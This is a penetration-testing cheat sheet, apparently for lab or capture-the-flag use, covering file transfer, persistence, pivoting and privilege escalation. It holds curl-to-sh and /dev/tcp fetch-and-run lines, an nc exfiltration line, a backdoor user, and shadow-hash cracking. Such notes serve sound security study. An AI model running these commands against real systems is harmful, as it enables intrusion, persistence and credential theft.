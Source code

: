 ## Permissions

virtual host routing

dnsrecon for finding domains

```
dnsrecon -r 127.0.0.1/24 -n <ip> -d <make up a domain>
```


## File Transfer
HTTP 
```
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```
FTP
```
python -m pyftpdlib 21 #Host
ftp <ip> #Victim
```
**Windows**
Certutil
```
certutil.exe -urlcache -f http://<attack IP>/<file> <file name>
```
**Linux**
```
wget
```
## Persistance
*Probably already with a meterpreter shell*

**Scripts**
```
run persistance -h
exploit/windows/local/persistance
exploit/windows/local/registry_persistance
```
**Scheduled Task**
```
run scheduleme
run scheduletaskabuse
```
**Add User**
```
net user <user> <pass> /add
```
## Pivoting

SSH proxy through a compromised machine
```
ssh  -f -N -D <Proxy Port> -i pivot <root user>@<proxy ip> 
```
Then run "proxychains" before commands you want to proxy like
```
proxychains nmap -sV <target ip>
```
Other tools that can be used are [sshuttle](https://github.com/sshuttle/sshuttle?tab=readme-ov-file) and [chisel](https://github.com/jpillora/chisel)
```
sshuttle -r <root>@<proxy ip> <new network>/<CIDR> --ssh-cmd "ssh -i proxy"
```

## Linux Privilege Escalation 
Identify Weakness
Wanna find bad SUID permissions?
```
find / -type f -perm -4000 2>/dev/null 
```
GTFOBins
```
/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
```
```
cat ~/.bash_history | grep -i passwd
ls -la /etc/shadow
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

```
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null 
```

Always go for a tty shell if you have a worse shell if possible

use a command like [(see here)](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Windows Privilege Escalation
to grab a file to a windows computer 

```
certutil.exe -urlcache -f http://<lhost>/<filename> <name>
```
## Useful files

[PEASS-NG](https://github.com/peass-ng/PEASS-ng)

```
# From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```